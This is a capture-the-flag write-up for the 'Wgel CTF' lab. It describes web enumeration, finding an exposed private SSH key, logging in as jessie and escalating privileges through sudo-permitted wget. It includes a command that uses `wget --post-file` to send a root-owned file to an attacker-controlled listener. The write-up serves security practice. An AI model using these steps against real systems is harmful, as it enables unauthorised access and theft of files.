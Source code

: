 # Wgel CTF

### Wgel CTF
Nmap scan shows ports 22 and 80 open. Port 80 is a default apache webpage. In the comments, there's a comment: <br />
![image](https://github.com/user-attachments/assets/969869b1-1cde-4169-8f7c-5485221e46bf)<br />
Self reminder: remember to ALWAYS take one step at a time. Even if it's a default page, look at the source code anyways, don't skip steps.<br /><br />

Directory enumeration shows `/sitemap`. After some enumeration, Nikto revealed a private ssh key: <br />
![image](https://github.com/user-attachments/assets/8ab40b14-bb99-440c-bec0-f316f671559f)<br />
So I copied it on my machine, changed it's permission with `chmod 600 id_rsa` and used it to log into jessie's account with `ssh jessie@ip_addr -i id_rsa`. The user flag is inside `/home/jessie/Documents`.
<br />
For privesc, if I run `sudo -l`, I get: <br />
![image](https://github.com/user-attachments/assets/57ae99c1-58b0-462a-aa73-91ba3afc7ca9)<br />
So jessie can run `wget` with sudo privileges. Since wget can also perform POST requests, I'm going to send the contents of `/root/root_flag.txt` to my self. So I open a netcat listener on port 80 on my machine, and then on the target machine run `sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.11.85.53`:<br />
![image](https://github.com/user-attachments/assets/aec08a45-16c3-4c8e-af77-0cf2eb8136f6)<br />


